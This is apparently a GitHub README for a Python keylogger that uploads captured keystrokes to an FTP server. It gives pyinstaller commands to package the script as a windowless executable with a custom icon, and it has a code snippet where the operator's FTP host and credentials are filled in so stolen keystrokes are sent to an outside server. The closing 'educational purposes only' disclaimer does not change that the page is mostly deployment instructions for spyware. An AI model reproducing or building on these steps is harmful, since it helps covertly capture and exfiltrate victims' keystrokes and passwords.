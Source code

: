 # PythonSimpleKeylogger


<pre>
 _     _ _______ __   __         _____   ______  ______ _______  ______    _____  __   __
 |____/  |______   \_/   |      |     | |  ____ |  ____ |______ |_____/   |_____]   \_/  
 |    \_ |______    |    |_____ |_____| |_____| |_____| |______ |    \_ . |          |   
</pre>
Yes, iKnow Keylogger in 2019 Well idk Xd.

About: This is Small Python key logger [Mid-LvL].<br>
Tested On: Windows 10 / Windows7 <br>
Suport : +Windows XP<br>
Date of Publish : 12/9/2019 <br>
Last Update : 12/9/2019 <br>
Features: Ftp support Light weight Cross platform. <br>
Went Find out about what is KeyLogger<br>

<pre>   When Find out about what is Keylogger  ? -> <a href="https://en.wikipedia.org/wiki/keylogger">Click Hare</a> <- </pre><br><br>



To Convet the .py to exe You can use <a href="https://www.pyinstaller.org">pyinstaller</a>.<br>
To install pyinstaller: <code>https://www.pyinstaller.org</code><br>
To Convet .py File to exe : <code>pyinstaller --onefile -w --icon YourIcon.ico Keylogger.py </code><br>
<b>Before Converting File to exe Run :</b> <code>pip install --user --requirement requirements.txt</code>

# ToDo :
Open Keylogger.py: and Replace these lines with your ftp sever address user/pass<br>
<code><pre><br>
                with FTP("ftp.Yourhost.com","User","passw123") as ftp:<br>
                      SomeCode<br>
</code></pre><br>
<b>NOTE :</b> Make sure you have path Like htdocs\logs in ftp sever.

<b>Before Converting File to exe Run :</b> <code>pip install --user --requirement requirements.txt</code>

#
<b>NOTE: THIS SOURCE CODE IS For Educational Purposes Only.<br>
IM NOT RESBONBLE FOR ANY BAD & MALICIOUS USE OF IT.</b>
